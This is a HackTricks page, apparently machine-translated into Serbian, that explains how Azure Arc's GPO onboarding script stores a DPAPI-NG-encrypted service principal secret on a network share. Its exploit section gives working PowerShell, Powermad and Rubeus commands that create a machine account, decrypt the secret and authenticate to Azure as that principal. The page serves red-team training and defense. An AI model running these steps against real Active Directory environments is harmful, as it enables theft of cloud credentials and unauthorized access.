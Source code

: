 # Az - Arc ranjivi GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc omogućava integraciju novih internih servera (servera pridruženih domenu) u Azure Arc koristeći metodu Group Policy Object. Da bi to olakšao, Microsoft pruža alat za implementaciju potreban za pokretanje procedure onboardinga. Unutar ArcEnableServerGroupPolicy.zip datoteke nalaze se sledeći skripti: DeployGPO.ps1, EnableAzureArc.ps1, i AzureArcDeployment.psm1.

Kada se izvrši, DeployGPO.ps1 skripta obavlja sledeće radnje:

1. Kreira Azure Arc Servers Onboarding GPO unutar lokalnog domena.
2. Kopira EnableAzureArc.ps1 skriptu za onboarding na određeni mrežni deo kreiran za proces onboardinga, koji takođe sadrži Windows instalacioni paket.

Kada se pokreće ova skripta, sys admini treba da obezbede dva glavna parametra: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Pored toga, potrebni su i drugi parametri kao što su domen, FQDN servera koji hostuje share, i naziv share-a. Dodatne informacije kao što su tenant ID, resource group, i druge potrebne informacije takođe moraju biti obezbeđene skripti.

Šifrovana tajna se generiše u AzureArcDeploy direktorijumu na određenom share-u koristeći DPAPI-NG šifrovanje. Šifrovana tajna se čuva u datoteci pod nazivom encryptedServicePrincipalSecret. Dokazi o ovome mogu se naći u DeployGPO.ps1 skripti, gde se šifrovanje vrši pozivanjem ProtectBase64 sa $descriptor i $ServicePrincipalSecret kao ulazima. Deskriptor se sastoji od SID-ova grupe Domain Computer i Domain Controller, osiguravajući da se ServicePrincipalSecret može dešifrovati samo od strane grupe sigurnosti Domain Controllers i Domain Computers, kako je navedeno u komentarima skripte.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Imamo sledeće uslove:

1. Uspešno smo penetrirali unutrašnju mrežu.
2. Imamo mogućnost da kreiramo ili preuzmemo kontrolu nad računom računara unutar Active Directory.
3. Otkrili smo mrežno deljenje koje sadrži AzureArcDeploy direktorijum.

Postoji nekoliko metoda za dobijanje računa računara unutar AD okruženja. Jedna od najčešćih je iskorišćavanje kvote računa računara. Druga metoda uključuje kompromitovanje računa računara kroz ranjive ACL-ove ili razne druge pogrešne konfiguracije.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Kada se dobije nalog mašine, moguće je autentifikovati se koristeći ovaj nalog. Možemo ili koristiti runas.exe komandu sa netonly flagom ili koristiti pass-the-ticket sa Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Čuvajući TGT za naš korisnički nalog u memoriji, možemo koristiti sledeći skript za dešifrovanje tajne servisnog principala.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativno, možemo koristiti [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

U ovom trenutku, možemo prikupiti preostale informacije potrebne za povezivanje sa Azure-om iz ArcInfo.json datoteke, koja se čuva na istom mrežnom delu kao i encryptedServicePrincipalSecret datoteka. Ova datoteka sadrži detalje kao što su: TenantId, servicePrincipalClientId, ResourceGroup i još mnogo toga. Sa ovim informacijama, možemo koristiti Azure CLI za autentifikaciju kao kompromitovani servisni principal.

## Reference

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
